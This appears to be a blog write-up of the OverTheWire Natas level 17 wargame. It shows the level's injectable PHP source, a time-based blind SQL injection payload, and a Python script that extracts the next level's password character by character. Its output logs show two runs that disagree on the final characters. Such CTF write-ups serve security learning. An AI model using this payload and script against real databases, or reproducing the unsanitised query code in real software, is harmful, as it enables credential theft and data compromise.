 ```yaml
---
layout: post
title: "Natas Level17 - Level18"
date: 2015-10-02 21:06:52
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 17 takes us back to Natas 15:

![Natas 17 search](/assets/img/screenshots/Natas_level17-1.png)

Lets look at the source to see if we can find whats changed:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas17</h1>
    <div id="content">
    <?

    /*
    CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas17', '<censored>');
        mysql_select_db('natas17', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysql_query($query, $link);
        if($res) {
        if(mysql_num_rows($res) > 0) {
            //echo "This user exists.<br>";
        } else {
            //echo "This user doesn't exist.<br>";
        }
        } else {
            //echo "Error in query.<br>";
        }

        mysql_close($link);
    } else {
    ?>

    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    <input type="submit" value="Check existence" />
    </form>
    <? } ?>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Hmm... looks like they completely removed the response. I submitted the user name "natas18" (since I assume it will exist) and "asfdgshnt" since I do not think it will exist. I captured both requests and sent it to the Burp Comparer to see if we can find any diffrences:

![Natas 17 burp comparer](/assets/img/screenshots/Natas_level17-2.png)

As expected, the result is exactly the same. Since this is a blind sql injection with absolutly no output, the only thing I can think of is a time base attack. If a reponse takes longer when the password exists, we should be able to brute force it. With no output, this might be difficult. So I rebuild a database on my local machine with the following data:
    +----------+----------------------------------+
    | username | password                         |
    +----------+----------------------------------+
    | natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
    +----------+----------------------------------+

Next I try the following query:

    Select * from users where username = "natas16"  AND LEFT(password, 1) COLLATE latin1_general_cs = "W" AND (SELECT SLEEP(5)) AND "1"="1";


And I get the following output:

![Natas 17 db output](/assets/img/screenshots/Natas_level17-3.png)

Here is the string that I will need to submit:

    natas18"  AND LEFT(password, 1) COLLATE latin1_general_cs = "a" AND  (SELECT SLEEP(20)) AND "1"="1

I capture a request in Burp and send it to the intruder but since this is a time base attack, I need to change the Number of threads to 1:

![Natas 17 Burp threads](/assets/img/screenshots/Natas_level17-4.png)

After running it I look at the response time and find the first letter of the password is x:

![Natas 17 Burp result](/assets/img/screenshots/Natas_level17-1.png)

Now lets script it!

    import urllib
    import urllib2
    import time

    url = 'http://natas17.natas.labs.overthewire.org/index.php'
    authorization = 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='

    Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
    's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
    'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
    '6','7','8','9']

    password = ""

    #loop through possible length of password
    for i in range(1, 33):
        print "%d out of 32" % (i)
        #loop through possible chars
        for j in range(0,len(Chars)):
            sqli = 'natas18"  AND LEFT(password, %d) COLLATE latin1_general_cs = "%s" AND  (SELECT SLEEP(10)) AND "1"="1' % (i,password + Chars[j])
            values = {'username' : sqli}
            data = urllib.urlencode(values)
            req = urllib2.Request(url, data)
            req.add_header('Authorization', authorization)
            start = time.time()
            response = urllib2.urlopen(req)
            the_page = response.read()
            end = time.time()
            #print the_page
            duration = end-start
            if duration > 10:
                password+=Chars[j]
                print password
                break


The first time I run it I get a weird issue:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ....
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDa
    30 out of 32
    31 out of 32
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDaE

But when I ran it again and I got:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ...
    27 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCs
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
    30 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
    31 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

